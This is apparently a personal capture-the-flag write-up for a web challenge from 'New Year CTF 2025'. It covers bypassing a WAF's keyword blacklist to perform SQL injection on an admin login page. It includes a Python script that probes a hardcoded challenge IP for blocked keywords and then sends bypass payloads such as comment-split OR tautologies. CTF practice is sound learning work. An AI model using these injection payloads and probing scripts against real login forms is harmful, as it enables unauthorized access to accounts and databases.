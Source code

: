 ```yaml
---
date: 2025-01-15
description: SQLi blacklisted keywords and comments
platform: New Year CTF 2025
categories: Web
tags:
  - sqli
  - filter-bypass
duration:
---
```

# Admin
after trying login with generic SQLi payload, we get error indicating theres a WAF blocking input. After submiting manual payloads, try to script and find what words/ characters are blacklisted

![](_attachments/Pasted%20image%2020250115193043.png)

# Solution
- I wanted to know what characters / strings are blocked, i also observed mixed cases are banned, so I tried scripting and find which are invalid input
- Application responses 
	- "Произошла ошибка" : generic sql error?
	- "Запрос заблокирован WAF. Подозрительный ввод" : input is blocked by WAF
	- "Неверное имя пользователя или пароль": valid input but wrong credentials
## Observed blacklist
- mixed-case generic is blocked
- single line comments are blocked 
> after learning what blacklist might be  write custom payload using special characters / comments
## solve.py 
```python
import requests
from bs4 import BeautifulSoup 
from colorama import Fore, Style

url = "http://185.219.81.19:9999/login"
data = {
    "username":	"admin",
    "password":	"test"
}

observed_blacklist = []
reserved_keywords = [
    "SELECT", "INSERT", "UPDATE", "DELETE", "CREATE", "DROP", "ALTER", "FROM", "WHERE", 
    "JOIN", "AND", "OR", "NOT", "NULL", "TRUE", "FALSE", "IN", "BETWEEN", "LIKE", "IS", 
    "AS", "DISTINCT", "GROUP", "HAVING", "ORDER", "LIMIT", "OFFSET", "UNION", "EXCEPT", 
    "INTERSECT", "ALL", "ANY", "ASC", "DESC", "CASE", "WHEN", "THEN", "ELSE", "END", 
    "EXPLAIN", "PRAGMA", "ATTACH", "DETACH", "BEGIN", "COMMIT", "ROLLBACK", "SAVEPOINT", 
    "RELEASE", "ROLLBACK TO", "VACUUM", "ANALYZE", "REINDEX", "RENAME", "TRIGGER", "VIEW", 
    "INDEX", "TABLE", "COLUMN", "CONSTRAINT", "PRIMARY", "FOREIGN", "CHECK", "DEFAULT", 
    "UNIQUE", "NOT NULL", "REFERENCES", "ON DELETE", "ON UPDATE", "WITHOUT", "IF", "ELSEIF", 
    "RETURN", "ABORT", "FAIL", "IGNORE", "REPLACE"
]
special_characters = [
    "||", "=", "<", "<=", ">", ">=", "<>", "+", "-", "*", "/", "(", ")", ",", ".", ":", ";", 
    "'", "\"", "*", "%", "[]", "#"
]

payload_list=[
    "test' O/**/R '1'='1",
    "test' O/**/R +'1'='1",
    "test' -", 
    "test''-", #valid
    "test'--", #banned
    "test'+||+'1'='1", 
    "test' || '1'='1",
]

def attack_user(payload):
    # hard since comments are blocked
    pass

def attack_pass(payload):
    data["password"] = payload 
    resp = requests.post(url, data=data)
    if "Произошла ошибка" in resp.text:
        print(Fore.RED+"error:"+Style.RESET_ALL, data)
    elif "Неверное имя пользователя или пароль" in resp.text:
        print(Fore.YELLOW+"wrong credentials:"+Style.RESET_ALL, data)
    elif "Запрос заблокирован WAF. Подозрительный ввод" in resp.text:
        print(Fore.RED+"blocked:"+Style.RESET_ALL, data)
        soup = BeautifulSoup(resp.text, 'html.parser')
        banned = soup.find(style='color:red;').get_text()
        observed_blacklist.append(banned)
    else:
        print(Fore.GREEN+"huh????:"+Style.RESET_ALL, data)
        soup = BeautifulSoup(resp.text, 'html.parser')
        flag = soup.find(class_='flag-text')
        return flag
    return False

def find_blacklist():
    for c in reserved_keywords + special_characters :
        attack_pass("'"+c)

find_blacklist()
# observed blacklist: ['SELECT', 'INSERT', 'UPDATE', 'DELETE', 'DROP', 'AND', 'OR', 'UNION', 'DELETE', 'UPDATE', '#', '--']
# mixed-casing not work

# custom payloads
for payload in payload_list:
    flag = attack_pass(payload)
    if flag: 
        print(flag)
        break
print("blacklist:", observed_blacklist)
```
output
![](_attachments/Pasted%20image%2020250115192411.png)
![](_attachments/Pasted%20image%2020250113221428.png)


